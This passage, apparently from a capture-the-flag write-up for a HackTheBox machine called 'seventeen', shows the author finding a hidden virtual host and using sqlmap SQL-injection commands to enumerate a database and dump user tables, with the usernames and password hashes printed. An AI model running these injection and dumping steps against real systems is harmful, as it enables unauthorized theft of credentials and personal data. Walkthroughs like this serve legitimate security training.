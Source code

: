 Let’s see if we can get a quick win on the password hashes by trying crackstation:

![image.png]({{ site.baseurl }}/assets/seventeen//image%203.png)

Did not work.

What is also interesting is that the avatar field includes a file path that is:

![image.png]({{ site.baseurl }}/assets/seventeen//image%204.png)

```bash
../oldmanagement/files/avatar.png
```

If we assume the normal website is /var/www/html, this might suggest there is another vhost:

```bash
#filepath
/var/www/oldmanagement

#vhost name
oldmanagement.seventeen.htb
```

Let’s add that to /etc/hosts and visit the URL:

![image.png]({{ site.baseurl }}/assets/seventeen//image%205.png)

It exists, and we are on port 8000.

Looking at the name of the system, we remember that the mysql has another dbs named db_sfms, let’s also dump that:

```bash
sqlmap -r req.txt -p id --batch -D db_sfms --tables

+---------+
| storage |
| user    |
| student |
+---------+

```

both student and user looks interesting, let’s dump both:

```bash
sqlmap -r req.txt -p id --batch -D db_sfms -T user,student --dump

user table:
fc8ec7b43523e186a27f46957818391c | admin
b35e311c80075c4916935cbbbd770cef | UndetectableMark
112dd9d08abf9dcceec8bc6d3e26b138 | Stev1992
```

Student table:

![image.png]({{ site.baseurl }}/assets/seventeen//image%206.png)
